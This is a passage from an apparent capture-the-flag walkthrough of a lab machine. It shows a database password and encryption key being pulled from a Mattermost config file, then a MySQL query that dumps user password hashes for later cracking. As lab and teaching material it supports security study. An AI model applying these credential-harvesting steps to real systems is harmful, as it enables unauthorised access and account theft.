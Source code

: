 ```
maildeliverer@Delivery:~$ ls
user.txt
maildeliverer@Delivery:~$
```

# Root

## Mysql

Looking around we find the database credentials for mattermost in the file `/opt/mattermost/config/config.json`

```json
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    },
```

The password for the account is a hint for the next steps to take. 

First we log into mysql to retrieve the usernames and passwords from the `mattermost.Users` table.

```
maildeliverer@Delivery:/$ mysql -u mmuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 181
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> select username, password from mattermost.Users;
+----------------------------------+--------------------------------------------------------------+
| username                         | password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| grem                             | $2a$10$yvZ.J0XP.bJ8gDt890oBnOQRsO/uc.3ePEPo54FScoNqEjS6NSLVC |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
+----------------------------------+--------------------------------------------------------------+
8 rows in set (0.001 sec)

MariaDB [(none)]> ```
```

